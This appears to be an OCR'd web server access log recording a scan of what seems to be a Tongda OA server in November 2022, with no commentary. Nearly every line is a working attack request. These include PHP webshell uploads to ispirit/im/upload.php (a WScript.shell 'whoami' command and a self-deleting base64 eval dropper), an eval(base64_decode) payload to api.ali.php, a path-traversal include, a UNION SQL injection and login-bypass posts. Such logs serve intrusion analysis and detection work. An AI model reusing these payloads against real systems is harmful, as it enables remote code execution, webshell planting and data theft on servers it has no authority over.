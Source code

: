 ```plain
192.168.17.1 - - [15/Nov/2022:10:27:34 -0500] "GET //mobile/auth_mobi.php?isAvatar=1&uid=1&P_VER=0 HTTP/1.1"200 17 "-" "Mozilla/5.0 (Windows NT 6.3; WOW64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/51.0.2704.7 Safari/537.36" "-" "-"
192.168.17.1 - - [15/Nov/2022:10:27:34 -0500] "GET //inc/expired.php HTTP/1.1"200 2840 "-" "Mozilla/5.0 (Windows NT 6.3; WOW64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/51.0.2704.7 Safari/537.36" "-" "-"
192.168.17.1 - - [15/Nov/2022:10:27:34 -0500] "GET //module/appbuilder/assets/print.php HTTP/1.1"404 36 "-" "Mozilla/5.0 (Windows NT 6.3; WOW64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/51.0.2704.7 Safari/537.36" "-" "-"
192.168.17.1 - - [15/Nov/2022:10:27:35 -0500] "POST //ispirit/im/upload.php HTTP/1.1"200 47 "-" "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/88.0.4324.190 Safari/537.36" "-" "--88d153850f4cd9519a022a3e88cd6569\x0D\x0AContent-Disposition: form-data; name=\x22P\x22\x0D\x0A\x0D\x0A123\x0D\x0A--88d153850f4cd9519a022a3e88cd6569\x0D\x0AContent-Disposition: form-data; name=\x22Filename\x22\x0D\x0A\x0D\x0Aphp.jpg\x0D\x0A--88d153850f4cd9519a022a3e88cd6569\x0D\x0AContent-Disposition: form-data; name=\x22DEST_UID\x22\x0D\x0A\x0D\x0A1\x0D\x0A--88d153850f4cd9519a022a3e88cd6569\x0D\x0AContent-Disposition: form-data; name=\x22UPLOAD_MODE\x22\x0D\x0A\x0D\x0A2\x0D\x0A--88d153850f4cd9519a022a3e88cd6569\x0D\x0AContent-Disposition: form-data; name=\x22ATTACHMENT\x22; filename=\x22ATTACHMENT\x22\x0D\x0A\x0D\x0A<?php $command='whoami';$wsh = new COM('WScript.shell');$exec = $wsh->exec('cmd /c '.$command);$stdout = $exec->StdOut();$stroutput = $stdout->ReadAll();echo $stroutput;?>\x0D\x0A--88d153850f4cd9519a022a3e88cd6569--\x0D\x0A"
192.168.17.1 - - [15/Nov/2022:10:27:36 -0500] "POST //mobile/api/api.ali.php HTTP/1.1"200 31 "-" "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/99.0.4844.74 Safari/537.36" "-" "--502f67681799b07e4de6b503655f5cae\x0D\x0AContent-Disposition: form-data; name=\x22file\x22; filename=\x22fb6790f4tongda.json\x22\x0D\x0AContent-Type: application/octet-stream\x0D\x0A\x0D\x0A{\x22modular\x22:\x22AllVariable\x22,\x22a\x22:\x22ZmlsZV9wdXRfY29udGVudHMoJy4uLy4uL2ZiNjc5MGY0dG9uZ2RhLnBocCcsJzw/cGhwICRhPSJ+K2QoKSJeIiF7K3t9IjskYj0keyRhfVsieCJdO2V2YWwoIiIuJGIpOz8+Jyk7==\x22,\x22dataAnalysis\x22:\x22{\x5C\x22a\x5C\x22:\x5C\x22\xE9\x8C\xA6',$BackData[dataAnalysis] => eval(base64_decode($BackData[a])));/*\x5C\x22}\x22}\x0D\x0A--502f67681799b07e4de6b503655f5cae--"
192.168.17.1 - - [15/Nov/2022:10:27:36 -0500] "GET //inc/package/work.php?id=../../../../../myoa/attach/approve_center/2204/%3E%3E%3E%3E%3E%3E%3E%3E%3E%3E%3E.fb6790f4tongda HTTP/1.1"500 5 "-" "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/99.0.4844.74 Safari/537.36" "-" "-"
192.168.17.1 - - [15/Nov/2022:10:27:36 -0500] "GET //fb6790f4tongda.php HTTP/1.1"404 56 "-" "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/99.0.4844.74 Safari/537.36" "-" "-"
192.168.17.1 - - [15/Nov/2022:10:27:36 -0500] "POST //logincheck_code.php HTTP/1.1"200 62 "-" "Mozilla/5.0 (Windows NT 6.3; WOW64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/51.0.2704.7 Safari/537.36" "-" "UID=1&CODEUID=_PC{C09D5F0C-5957-8F8D-E3C6-A1D23DF8CD6F}"
192.168.17.1 - - [15/Nov/2022:10:27:37 -0500] "POST //general/bi_design/appcenter/report_bi.func.php HTTP/1.1"200 2493 "-" "Mozilla/5.0 (Windows NT 6.3; WOW64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/51.0.2704.7 Safari/537.36" "-" "_POST[dataset_id]=efgh'-@`'`)union select database(),2,user()#'&action=get_link_info&"
192.168.17.1 - - [15/Nov/2022:10:27:38 -0500] "POST //general/file_folder/swfupload_new.php HTTP/1.1"200 2493 "-" "Mozilla/5.0 (Windows NT 6.3; WOW64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/51.0.2704.7 Safari/537.36" "-" "------------GFioQpMK0vv2\x0D\x0AContent-Disposition: form-data; name=\x22ATTACHMENT_ID\x22\x0D\x0A\x0D\x0A1\x0D\x0A------------GFioQpMK0vv2\x0D\x0AContent-Disposition: form-data; name=\x22ATTACHMENT_NAME\x22\x0D\x0A\x0D\x0A1\x0D\x0A------------GFioQpMK0vv2\x0D\x0AContent-Disposition: form-data; name=\x22FILE_SORT\x22\x0D\x0A\x0D\x0A2\x0D\x0A------------GFioQpMK0vv2\x0D\x0AContent-Disposition: form-data; name=\x22SORT_ID\x22\x0D\x0A\x0D\x0A------------GFioQpMK0vv2--"
192.168.17.1 - - [15/Nov/2022:10:27:38 -0500] "POST //logincheck_code.php HTTP/1.1"200 62 "-" "Mozilla/5.0 (Windows NT 6.3; WOW64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/51.0.2704.7 Safari/537.36" "-" "UID=1&CODEUID=_PC{6047FF7A-0B4A-3311-E5A9-31D28A933872}"
192.168.17.1 - - [15/Nov/2022:10:27:39 -0500] "POST //ispirit/im/upload.php HTTP/1.1"200 25 "-" "Mozilla/5.0 (Windows NT 6.3; WOW64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/51.0.2704.7 Safari/537.36" "-" "--********\x0D\x0AContent-Disposition: form-data; name=\x22UPLOAD_MODE\x22\x0D\x0A\x0D\x0A2\x0D\x0A--********\x0D\x0AContent-Disposition: form-data; name=\x22P\x22\x0D\x0A\x0D\x0A123\x0D\x0A--********\x0D\x0AContent-Disposition: form-data; name=\x22DEST_UID\x22\x0D\x0A\x0D\x0A1\x0D\x0A--********\x0D\x0AContent-Disposition: form-data; name=\x22ATTACHMENT\x22; filename=\x22png\x22\x0D\x0AContent-Type: image/jpeg\x0D\x0A\x0D\x0A<?php file_put_contents($_SERVER[\x22DOCUMENT_ROOT\x22].\x22//zskwgpaodw.php\x22,base64_decode(\x22PD9waHAgJGE9In4rZCgpIl4iIXsre30iOyRiPSR7JGF9WyJ4Il07ZXZhbCgiIi4kYik7Pz4=\x22).\x22zskwgpaodw\x22);?><?php unlink(__FILE__);echo \x22zskwgpaodw\x22;?>\x0D\x0A--********\x0D\x0A\x0D\x0A"
```